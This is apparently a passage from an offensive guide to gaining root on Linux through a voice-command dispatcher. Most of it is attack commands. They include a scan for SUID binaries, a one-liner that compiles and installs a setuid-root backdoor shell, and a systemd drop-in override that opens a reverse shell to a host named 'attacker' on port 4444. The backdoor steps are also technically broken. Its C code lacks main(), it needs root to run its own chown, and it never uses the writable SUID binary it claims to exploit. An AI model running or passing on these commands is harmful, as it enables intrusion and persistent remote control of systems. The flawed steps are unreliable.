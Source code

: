 * **Dispatcher Exec**

  ```bash
  bash -c "find / -type f -perm -4000 2>/dev/null | tee /tmp/suid_list.txt"
  ```
* **Underlying Primitives**

  * `execve("find", ["find","/","-type","f","-perm","-4000"],…)`
  * Syscalls: `open()`, `stat()`, `read()`, `write()` to scan filesystem
* **Attack Surface**

  * Unfiltered `find` output, attacker inspects `/tmp/suid_list.txt`

#### 8.1.2 Exploiting a Writable SUID

Suppose `/usr/local/bin/vuln_suid` is SUID root and writable by group “audio”:

```bash
# Voice Phrase: “Exploit vuln_suid”
bash -c "echo 'system(\"/bin/sh\");' > /tmp/backdoor.c && gcc -o /tmp/backdoor /tmp/backdoor.c && chown root:root /tmp/backdoor && chmod 4755 /tmp/backdoor && /tmp/backdoor"
```

* **Steps & Syscalls**

  1. `open("/tmp/backdoor.c", O_WRONLY|O_CREAT)` + `write()`
  2. `execve("gcc",…)` → compiles C to ELF (`open()`,`write()`)
  3. `chown("backdoor",0,0)` → requires CAP\_CHOWN or root
  4. `chmod("backdoor", S_ISUID|0755)` → `chmod(2)`
  5. `execve("/tmp/backdoor",…)` → spawns root shell

> **Note:** Writable SUID exploitation often combines file write, compile, and SUID bits.

---

### 8.2 Exploiting misconfigured [whisper-invoke@.service](mailto:whisper-invoke@.service)

A miswritten systemd unit can be hijacked via drop-in or environment injection.

#### 8.2.1 Original Unit

```ini
[Service]
ExecStart=/usr/local/bin/whisper-invoke.sh %i
User=root
EnvironmentFile=-/etc/sysconfig/whisper
```

#### 8.2.2 Drop-In Override via Voice

```bash
# Voice Phrase: “Override whisper service”
bash -c "mkdir -p /etc/systemd/system/whisper-invoke@.service.d && \
cat <<EOF > /etc/systemd/system/whisper-invoke@.service.d/override.conf
[Service]
ExecStart=
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'
EOF && systemctl daemon-reload && systemctl restart whisper-invoke@user"
```

